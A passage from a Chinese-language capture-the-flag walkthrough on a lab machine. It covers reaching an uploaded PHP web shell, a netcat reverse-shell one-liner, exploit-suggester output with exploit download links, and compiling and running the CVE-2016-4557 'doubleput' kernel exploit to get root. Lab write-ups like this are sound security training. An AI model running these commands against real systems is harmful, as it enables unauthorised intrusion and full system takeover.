  

- 直接尝试`192.168.200.153/templates/beez3/html/shell.php`,成功找到



- 成功拿到shell

  

- 进入虚拟终端后发现是data权限


- 在本地编写一个信息收集脚本

脚本源码地址：

```
https://github.com/The-Z-Labs/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh
```




### 提权：

### 反弹shell


```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.200.150 21 >/tmp/f
```


- 本地先监听

  

- 目标机反弹shell




- 然后执行刚刚写入的目标服务器信息收集脚本`zz.sh`

  ```
  $ /bin/bash ./zz.sh
  
  Available information:
  
  Kernel version: 4.4.0
  Architecture: i686
  Distribution: ubuntu
  Distribution version: 16.04
  Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
  Package listing: from current OS
  
  Searching among:
  
  81 kernel space exploits
  49 user space exploits
  
  
  [+] [CVE-2017-16995] eBPF_verifier
  
     Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
     Exposure: highly probable
     Tags: debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,ubuntu=14.04{kernel:4.4.0-89-generic},[ ubuntu=(16.04|17.04) ]{kernel:4.(8|10).0-(19|28|45)-generic}
     Download URL: https://www.exploit-db.com/download/45010
     Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1
  
  [+] [CVE-2016-8655] chocobo_root
  
     Details: http://www.openwall.com/lists/oss-security/2016/12/06/1
     Exposure: highly probable
     Tags: [ ubuntu=(14.04|16.04){kernel:4.4.0-(21|22|24|28|31|34|36|38|42|43|45|47|51)-generic} ]
     Download URL: https://www.exploit-db.com/download/40871
     Comments: CAP_NET_RAW capability is needed OR CONFIG_USER_NS=y needs to be enabled
  
  [+] [CVE-2016-5195] dirtycow
  
     Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
     Exposure: highly probable
     Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
     Download URL: https://www.exploit-db.com/download/40611
     Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
  
  [+] [CVE-2016-4557] double-fdput()
  
     Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=808
     Exposure: highly probable
     Tags: [ ubuntu=16.04{kernel:4.4.0-21-generic} ]
     Download URL: https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip
     Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1
  
  [+] [CVE-2021-4034] PwnKit
  
     Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
     Exposure: probable
     Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
     Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
  
  [+] [CVE-2021-3156] sudo Baron Samedit 2
  
     Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
     Exposure: probable
     Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
     Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
  
  [+] [CVE-2017-7308] af_packet
  
     Details: https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html
     Exposure: probable
     Tags: [ ubuntu=16.04 ]{kernel:4.8.0-(34|36|39|41|42|44|45)-generic}
     Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-7308/poc.c
     ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2017-7308/poc.c
     Comments: CAP_NET_RAW cap or CONFIG_USER_NS=y needed. Modified version at 'ext-url' adds support for additional kernels
  
  [+] [CVE-2017-6074] dccp
  
     Details: http://www.openwall.com/lists/oss-security/2017/02/22/3
     Exposure: probable
     Tags: [ ubuntu=(14.04|16.04) ]{kernel:4.4.0-62-generic}
     Download URL: https://www.exploit-db.com/download/41458
     Comments: Requires Kernel be built with CONFIG_IP_DCCP enabled. Includes partial SMEP/SMAP bypass
  
  [+] [CVE-2017-1000112] NETIF_F_UFO
  
     Details: http://www.openwall.com/lists/oss-security/2017/08/13/1
     Exposure: probable
     Tags: ubuntu=14.04{kernel:4.4.0-*},[ ubuntu=16.04 ]{kernel:4.8.0-*}
     Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-1000112/poc.c
     ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2017-1000112/poc.c
     Comments: CAP_NET_ADMIN cap or CONFIG_USER_NS=y needed. SMEP/KASLR bypass included. Modified version at 'ext-url' adds support for additional distros/kernels
  
  [+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)
  
     Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
  https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
     Exposure: less probable
     Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
     Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
     Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)
  
  [+] [CVE-2022-2586] nft_object UAF
  
     Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
     Exposure: less probable
     Tags: ubuntu=(20.04){kernel:5.12.13}
     Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
     Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)
  
  [+] [CVE-2021-3156] sudo Baron Samedit
  
     Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
     Exposure: less probable
     Tags: mint=19,ubuntu=18|20, debian=10
     Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main
  
  [+] [CVE-2021-22555] Netfilter heap out-of-bounds write
  
     Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
     Exposure: less probable
     Tags: ubuntu=20.04{kernel:5.8.0-*}
     Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
     ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
     Comments: ip_tables kernel module must be loaded
  
  [+] [CVE-2019-18634] sudo pwfeedback
  
     Details: https://dylankatz.com/Analysis-of-CVE-2019-18634/
     Exposure: less probable
     Tags: mint=19
     Download URL: https://github.com/saleemrashid/sudo-cve-2019-18634/raw/master/exploit.c
     Comments: sudo configuration requires pwfeedback to be enabled.
  
  [+] [CVE-2019-15666] XFRM_UAF
  
     Details: https://duasynt.com/blog/ubuntu-centos-redhat-privesc
     Exposure: less probable
     Download URL: 
     Comments: CONFIG_USER_NS needs to be enabled; CONFIG_XFRM needs to be enabled
  
  [+] [CVE-2017-5618] setuid screen v4.5.0 LPE
  
     Details: https://seclists.org/oss-sec/2017/q1/184
     Exposure: less probable
     Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154
  
  [+] [CVE-2016-9793] SO_{SND|RCV}BUFFORCE
  
     Details: https://github.com/xairy/kernel-exploits/tree/master/CVE-2016-9793
     Exposure: less probable
     Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-9793/poc.c
     Comments: CAP_NET_ADMIN caps OR CONFIG_USER_NS=y needed. No SMEP/SMAP/KASLR bypass included. Tested in QEMU only
  
  [+] [CVE-2016-2384] usb-midi
  
     Details: https://xairy.github.io/blog/2016/cve-2016-2384
     Exposure: less probable
     Tags: ubuntu=14.04,fedora=22
     Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-2384/poc.c
     Comments: Requires ability to plug in a malicious USB device and to execute a malicious binary as a non-privileged user
  
  [+] [CVE-2016-0728] keyring
  
     Details: http://perception-point.io/2016/01/14/analysis-and-exploitation-of-a-linux-kernel-vulnerability-cve-2016-0728/
     Exposure: less probable
     Download URL: https://www.exploit-db.com/download/40003
     Comments: Exploit takes about ~30 minutes to run. Exploit is not reliable, see: https://cyseclabs.com/blog/cve-2016-0728-poc-not-working
  
  $ 
  
  ```

  

- 由此脚本可以看出，可以利用哪些方法进行提权，这里我们使用[CVE-2016-4557]进行提权，需要使用的工具脚本给了地址。我们直接下载下来然后传到目标机器上

  

- 在目标机上解压该文件，并进入39772目录，再解压exploit.tar文件，解压完成后进入该目录，给complile.sh一个执行权限，最后执行该脚本，执行完成后有个doubleput，直接执行它。就发现拥有root权限了

```
$ ls
39772.zip
com_contact
com_content
com_newsfeeds
com_weblinks
layouts
mod_breadcrumbs
mod_languages
mod_login
modules.php
shell.php
zz.sh
$ unzip 39772.zip
Archive:  39772.zip
   creating: 39772/
  inflating: 39772/.DS_Store         
   creating: __MACOSX/
   creating: __MACOSX/39772/
  inflating: __MACOSX/39772/._.DS_Store  
  inflating: 39772/crasher.tar       
  inflating: __MACOSX/39772/._crasher.tar  
  inflating: 39772/exploit.tar       
  inflating: __MACOSX/39772/._exploit.tar  
$ ls
39772
39772.zip
__MACOSX
com_contact
com_content
com_newsfeeds
com_weblinks
layouts
mod_breadcrumbs
mod_languages
mod_login
modules.php
shell.php
zz.sh
$ cd 39772
$ ls
crasher.tar
exploit.tar
$ tar xf exploit.tar
$ ls
crasher.tar
ebpf_mapfd_doubleput_exploit
exploit.tar
$ cd ebpf_mapfd_doubleput_exploit
$ ls
compile.sh
doubleput.c
hello.c
suidhelper.c
$ chmod +x compile.sh
$ ./compile.sh
doubleput.c: In function 'make_setuid':
doubleput.c:91:13: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
    .insns = (__aligned_u64) insns,
             ^
doubleput.c:92:15: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
    .license = (__aligned_u64)""
               ^
$ ./doubleput
starting writev
woohoo, got pointer reuse
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.
suid file detected, launching rootshell...
we have root privs now...
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)

```

- 去root目录下拿最终flag

  